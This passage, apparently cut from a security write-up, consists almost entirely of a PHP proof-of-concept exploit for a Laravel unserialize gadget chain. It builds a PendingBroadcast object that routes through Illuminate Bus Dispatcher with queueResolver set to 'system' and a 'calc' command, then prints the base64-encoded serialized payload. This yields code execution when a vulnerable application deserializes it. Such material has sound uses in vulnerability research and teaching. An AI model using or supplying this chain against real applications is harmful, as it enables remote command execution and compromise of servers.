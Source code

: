 ```php
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";

        }
    }
}

namespace Illuminate\Broadcasting{

    use Illuminate\Contracts\Queue\ShouldQueue;

    class BroadcastEvent implements ShouldQueue {
        function __construct() {}
    }

    class PendingBroadcast{
        protected $events;
        protected $event;
        function __construct() {
            $this->event = new BroadcastEvent();
            $this->event->connection = "calc";
            $this->events = new \Illuminate\Bus\Dispatcher();
        }
    }
}

namespace {
    $pop = new \Illuminate\Broadcasting\PendingBroadcast();
    echo base64_encode(serialize($pop));
}
```

<div align=center><img src="./images/7.png"></div>
